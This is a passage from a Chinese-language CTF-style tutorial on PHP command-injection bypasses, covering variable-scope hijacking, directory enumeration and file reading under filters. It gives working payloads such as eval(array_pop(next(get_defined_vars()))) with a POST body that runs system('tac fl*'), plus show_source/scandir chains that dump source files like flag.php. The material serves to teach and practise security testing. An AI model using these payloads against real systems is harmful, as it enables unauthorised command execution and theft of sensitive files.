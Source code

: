 ## 3.6 变量作用域劫持攻击

利用变量作用域劫持实现命令执行：
```c
?c=eval(array_pop(next(get_defined_vars())));
POST:
	1=system('tac fl*');    
```
### 3.6.1 函数解释
- `get_defined_vars()`
获取当前作用域中所有定义的变量，返回一个数组，键是变量名，值是对应的变量值。
- `next(get_defined_vars())`
将指针移动到数组中的下一个元素，并返回该元素的值。在这里，指针操作的对象是由 get_defined_vars() 返回的数组。
- `array_pop(...)`
弹出数组的最后一个元素。这里作用在 `next(get_defined_vars())` 的结果上，获取这个数组的最后一个变量值。
### 3.6.2 攻击流程
- 攻击者通过 `POST` 请求传入 `1=system('tac fl*');`，在服务器端该数据被存储为变量。
- `array_pop(next(get_defined_vars()))` 获取该变量值，即 `system('tac fl*')`。
- `eval()` 动态执行，触发 `system('tac fl*')`，攻击者能够获取敏感文件内容。

## 3.7 函数嵌套文件枚举

- `getcwd()` 函数返回当前工作目录的路径。
- `scandir()` 函数列出指定目录中的所有文件和目录，并返回一个包含文件和目录名称的数组。
- `show_source()`函数用于显示一个 `PHP` 文件的源代码
通过这三个函数，拼接出了`flag.php`文件，并使用`show_source`输出。这里的`[2]`要多尝试，`flag`文件的位置不一定会在第2位
```c
?c=show_source(scandir(getcwd())[2]);
```

## 3.8 函数嵌套文件读取

当 `[]` 被过滤时，利用指针操作函数读取特定文件  
读取最后一个文件：
```c
?c=show_source(current(array_reverse(scandir(getcwd()))));
```
读取倒数第二个文件：
```c
?c=show_source(next(array_reverse(scandir(getcwd()))));
```
还可以用下面的方法得到目录：
```c
?c=echo highlight_file(current(array_reverse(scandir(pos(localeconv())))));
?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```
---

# 四. 空格过滤
